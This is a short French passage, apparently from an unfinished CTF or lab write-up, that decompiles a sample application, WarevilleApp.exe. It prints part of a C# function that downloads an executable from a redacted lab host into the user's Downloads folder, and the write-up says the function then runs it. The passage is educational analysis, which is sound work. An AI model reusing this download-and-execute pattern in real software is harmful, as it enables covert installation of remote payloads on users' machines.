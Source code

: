<div class="text-center">
    <i style="font-size: 24px" class="text-info">Rédaction en cours</i><br />
    <i class="fa-solid fa-spinner fa-spin-pulse fa-2xl text-info mt-3"></i>
</div>

En décompilant `WarevilleApp.exe` nous y trouvons la fonction téléchargeant et exécutant un programme :

```c#
private void [...expurge...]()
{
  string address = "http://[...expurgé...].thm:8080/dw/[...expurgé...].exe";
  string text = Path.Combine(Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile), "Downloads"), "[...expurgé...].exe");
  using WebClient webClient = new WebClient();
  try
  {
    if (File.Exists(text))
    {
      File.Delete(text);
    }
